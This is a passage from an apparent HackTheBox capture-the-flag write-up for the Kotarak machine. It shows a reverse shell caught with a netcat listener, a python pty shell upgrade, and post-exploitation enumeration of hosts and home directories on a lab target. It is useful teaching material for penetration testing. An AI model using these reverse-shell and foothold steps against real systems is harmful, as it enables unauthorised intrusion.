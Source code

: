 With `nc` listening, I'll click `/rev`, and it returns a blank page, but
also a shell at `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 51386
    id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)



Shell upgrade with the standard trick:



    python -c 'import pty;pty.spawn("bash")'
    tomcat@kotarak-dmz:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    tomcat@kotarak-dmz:/$



## Shell as atanas on dmz

### Enumeration

#### Hosts

The hostname with this shell is kotarak-dmz, which implies there's
another host I will try to go after.

The `ifconfig` shows that the IP of this host is 10.10.10.55, which for
HTB means that I'm on the main VM. There's also a lxcbr0 adapter with
the IP 10.0.3.1. LXC is a container system, so I suspect I need to get
into a container on that network.

#### Homedirs

I'll There are two home directories on this dmz host:



    tomcat@kotarak-dmz:/home$ ls
    atanas  tomcat



`user.txt` is in `atanas`, but I can't read it as tomcat:



    tomcat@kotarak-dmz:/home$ ls -l atanas/
    total 4
    -rw-rw---- 1 atanas atanas 33 Jul 19  2017 user.txt

